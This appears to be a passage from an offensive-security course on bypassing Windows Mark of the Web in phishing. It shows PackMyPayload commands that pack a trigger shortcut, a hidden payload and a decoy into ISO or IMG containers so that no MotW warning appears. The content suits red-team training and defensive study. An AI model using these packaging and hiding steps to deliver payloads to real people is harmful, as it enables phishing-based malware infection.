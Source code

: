 Mark of the Web, aka MotW, is a zone identifier used to mark files that have been downloaded from the Internet as potentially unsafe.  This can be seen on a file by looking at its properties in Explorer or using PowerShell.

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/e2924df834b666c79c4d677ad723d63f.png)

```powershell
PS C:\Users\Attacker\Downloads> Get-Content -Stream Zone.Identifier .\test.pdf
[ZoneTransfer]
ZoneId=3
ReferrerUrl=https://s28.q4cdn.com/392171258/files/doc_downloads/test.pdf
HostUrl=https://s28.q4cdn.com/392171258/files/doc_downloads/test.pdf
```

MotW is troublesome when phishing because Windows may present additional security warnings to the user when attempting to open or run files that have it.  Some files, such as Office documents, will not enable macros if MotW is present.

Containers provide a means of bundling your dependencies (trigger, payload, and decoy) into a single file.  This simplifies the process of sending multiple files to a victim and can add a level of obfuscation (e.g. if they can be password protected).  The ISO/IMG, ZIP, and WIM formats are solid choices as they're natively supported by Windows.  You could go for something like 7z, Gz, or WinRAR, but a victim may not have the required software available to interact with them.  You can package your files manually, or use a tool such as mgeeky's [PackMyPayload](https://github.com/mgeeky/PackMyPayload).  Some of these container formats support hidden files, and some do not propagate MotW.  [This repository](https://github.com/nmantani/archiver-MOTW-support-comparison) by [Nobutaka Mantani](https://x.com/nmantani) contains a comparison of MotW propagations.

For example, I can pack the aforementioned PDF executable into an ISO.

```bash
attacker@DESKTOP-FGSTPS7:/mnt/c/Users/Attacker/Downloads$ /mnt/c/Tools/PackMyPayload/PackMyPayload.py test.pdf test.iso

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
    Adding file: /test.pdf
[+] File packed into ISO.

[+] Generated file written to (size: 65536): test.iso
```

We can then test it by hosting it on a Python web server, then pulling it down via PowerShell.

Then when it's mounted, we can see that MotW is no longer applied to the PDF.

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/a4bf46c21cc2ea1da5dbd6752b7e0bf9.png)

PackMyPayload also has the option to set the hidden attribute on files as they're packaged into a container.  This is useful for scenarios where you want to hide files such as the decoy and payload, so that the user only sees the trigger.

For example, if we had three files, a trigger, payload, and decoy:

```bash
$ ls -l /mnt/c/Payloads/xlam

-rwxrwxrwx 1 rasta rasta 11607 Jun 27 13:55 decoy.xlsx
-rwxrwxrwx 1 rasta rasta 12906 Jun 27 13:55 payload.xlam
-rwxrwxrwx 1 rasta rasta  2094 Jun 28 13:55 trigger.xls.lnk
```

We can pack them into an IMG file whilst hiding _decoy.xlsx_ and _payload.xlam_ using the `-H` parameter.

```bash
$ python3 PackMyPayload.py -H decoy.xlsx,payload.xlam /mnt/c/Payloads/xlam /mnt/c/Payloads/xlam/package.img
```